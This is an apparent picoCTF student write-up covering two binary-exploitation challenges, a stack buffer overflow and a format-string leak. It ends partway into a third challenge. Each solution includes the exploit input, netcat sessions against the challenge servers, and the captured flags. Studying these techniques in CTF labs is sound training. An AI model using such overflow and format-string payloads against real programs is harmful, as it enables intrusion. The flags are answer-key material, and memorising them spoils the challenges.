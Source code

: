 # Binary Exploitation

# 1. buffer overflow 0
> Description: Let's start off simple, can you overflow the correct buffer? The program is available here. You can view source here.
Connect using:
nc saturn.picoctf.net 56132
## Solution:
When we analyze the source code, we figure out that our standard input is being stored in "buf1". In the main function, "vuln()" function is being called with "buf1" as argument. The vuln() function copies the argument into "buf2". The maximum size of buf2 is 16. Since, input > buf1 > buf2, if our input is longer than 16 characters, it will overflow buf2 and overwrite the element above it. This overwriting of the element triggers the function to give us the flag.
```
root@DESKTOP-9PHI4CM:~# nc saturn.picoctf.net 64880
Input: aaaaaaaaaaaaaaaaflag
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
## Flag:
```
picoCTF{ov3rfl0ws_ar3nt_that_bad_9f2364bc}
```
## Concepts learnt:
I learnt about stack buffer overflow: If we exceed the maximum size of a buffer while it stores input, we can overwrite whatever is above it. We can exploit this vulnerability in order to print our desired output.
## Resources:
https://ctf101.org/binary-exploitation/buffer-overflow/

***

# 2. format string 0
> Description: Can you use your knowledge of format strings to make the customers happy?
Download the binary here.
Download the source here.
Connect with the challenge instance here:
nc mimas.picoctf.net 61602
## Solution:
According to the source code, The function serve_patrick() will lead us to function serve_bob() only if the input is greater than 64 (BUFSIZE=32).
We check the first option "Breakf@st_Burger", which turns out to be too small in value. We then check "Gr%114d_Cheese", this works as it contains a format specifier: %114d. This fills our input with 114 garbage values and our input becomes large enough in size. We then go to function serve_bob().
We know that if there are more format specifiers than there are function arguments to fill its place, printf() will just print the next value on the stack (for whichever format specifier's argument is not given). 
So we first check Pe%to_Portobello but we dont get any result i=with it. Following the hint, we then check Cla%sic_Che%s%steak as it has 3 format specifiers.
This works because there are no arguments with the format specifiers, so printf keeps accessing the values at the location next on the stack. This may cause the program to crash (as bob wants an order that would break the shop) and we get the flag.
```
root@DESKTOP-9PHI4CM:~# nc mimas.picoctf.net 61602
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Breakf@st_Burger
Breakf@st_BurgerPatrick is still hungry!
Try to serve him something of larger size!
^C
root@DESKTOP-9PHI4CM:~# nc mimas.picoctf.net 61602
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Pe%to_Portobello
Pe20021560_Portobello
root@DESKTOP-9PHI4CM:~# nc mimas.picoctf.net 61602
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Gr%114d_Cheese
Gr                                                                                                           4202954_Cheese
Good job! Patrick is happy! Now can you serve the second customer?
Sponge Bob wants something outrageous that would break the shop (better be served quick before the shop owner kicks you out!)
Please choose from the following burgers: Pe%to_Portobello, $outhwest_Burger, Cla%sic_Che%s%steak
Enter your recommendation: Cla%sic_Che%s%steak
ClaCla%sic_Che%s%steakic_Che(null)
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```
## Flag:
```
picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_dc0f36c4}
```
## Concepts learnt:
I learnt that we can manipulate the source code into giving our desired output by formatting the input strings in different ways using different format specifiers.
I also learnt that if there are more format specifiers than there are function arguments to fill its place, printf() will just print the next value on the stack (for whichever format specifier's argument is not given).
## Resources:
https://medium.com/swlh/binary-exploitation-format-string-vulnerabilities-70edd501c5be
https://ctf101.org/binary-exploitation/what-is-a-format-string-vulnerability/

***

# 3. clutter overflow
> Description: Clutter, clutter everywhere and not a byte to use.
nc mars.picoctf.net 31890


